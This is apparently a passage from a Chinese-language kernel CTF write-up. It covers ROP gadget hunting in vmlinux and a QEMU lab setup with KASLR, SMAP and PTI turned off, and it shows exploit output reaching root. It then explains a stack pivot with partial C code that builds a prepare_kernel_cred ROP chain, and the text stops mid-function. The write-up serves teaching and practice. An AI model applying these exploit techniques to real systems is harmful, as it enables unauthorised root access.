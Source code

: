 ```c
```

这个由于可以随意溢出rop思路还是很明确的，主要是寻找gadgets稍微复杂一点：

+ 根据IDA获取vmlinux的代码段`ROPgadget --binary ./vmlinux --range 0xFFFFFFFF8101BAB0-0xFFFFFFFF81BE7762 > gadgets_2.txt`
  + 无法找到`iret`
+ `objdump -j .text -d ./vmlinux | grep iretq | head -1`获取**iret**指令
  + -j：dump的段名，-d反编译

Result:

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -gdb tcp::1234 \
    -append "console=ttyS0 nopti nosmap nokaslr quiet panic=1"
    

/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: 14a9938066bb1200
[*] Prepared payload
[*] Returned to userland
[*] UID: 0, got root!
/ # 
```



### Rop --- Pivot Stack

很明显第二种情况我们无法在ret地址后面部署更多的gadgets，所以我们使用在用户程序经常使用的`栈迁移`。这就需要修改rsp/esp的gadgets，这对我们巨量的gadgets一般不成问题，只需保证gadgets可执行，并且那个给rsp/esp赋值的常量是地址对齐的`mov esp, 0x5b000000 ; pop r12 ; pop rbp ; ret`。然后处理就和前面一样了：

```c
void build_stack(){
    puts("[*] Build stack start");
    unsigned long *base = NULL, *payload = NULL;
    base = mmap((void *)(0x5b000000 - 0x1000), 0x2000, PROT_EXEC|PROT_WRITE|PROT_READ, MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED, 0, 0);
    if((unsigned long)base != (0x5b000000 - 0x1000)){
        puts("[!] build_stack failed!");
        exit(-1);
    }
    
    payload = base;
    int off = 0x1000/8;
    payload[0] = 0xdeadbeef;
    payload[off++] = 0;                //pop r12
    payload[off++] = 0xdeadbeef;       //pop rbp
    
    payload[off++] = PopRdiRet;        // ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;
    
```